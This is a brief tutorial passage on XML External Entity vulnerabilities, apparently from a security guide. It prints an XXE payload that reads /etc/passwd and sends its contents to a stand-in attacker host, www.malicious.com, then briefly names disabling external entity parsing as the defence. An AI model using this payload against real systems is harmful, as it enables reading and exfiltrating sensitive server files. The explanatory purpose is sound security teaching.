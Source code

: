 # XML External Entity Vulnerability
```(xml)
    <?xml version="1.1" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY % xxe SYSTEM "file:///etc/passwd" >
    <!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
    ]
    >
    <foo>&callhome;</foo>
```
The `%` is used when the entity is to be
evaluated within the XML DTD definition itself and the `&` when the entity is evaluated in
the XML document. When the XML document is parsed, the `callhome !ENTITY` will
read the contents of the `/etc/passwd` file and make a remote call to `www.malicous.com`
sending the file contents as a URL parameter. Since we own that server, we can check
our logs and get the contents of `/etc/passwd`.
So, how do sites protect them against XXE vulnerabilities? They disable the parsing of
external entities.